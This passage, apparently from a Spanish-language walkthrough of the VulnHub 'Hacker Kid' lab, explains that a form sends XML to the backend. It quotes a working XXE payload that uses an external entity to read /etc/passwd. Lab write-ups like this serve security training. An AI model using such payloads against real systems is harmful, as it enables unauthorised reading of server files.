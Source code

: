 ![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-6.png)

Si vemos las cabeceras de la petición y como se pasan estos datos al backend avergiremos que es un formulario XML.

![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-7.png)

[Info adicional sobre XXE](https://portswigger.net/web-security/xxe)

> La aplicación no implementa defensas particulares contra ataques XXE, por lo que puedes explotar la vulnerabilidad XXE para obtener el archivo `/etc/passwd` enviando el siguiente payload XXE:

 ```xml
 <?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <stockCheck><productId>&xxe;</productId></stockCheck>
 ```
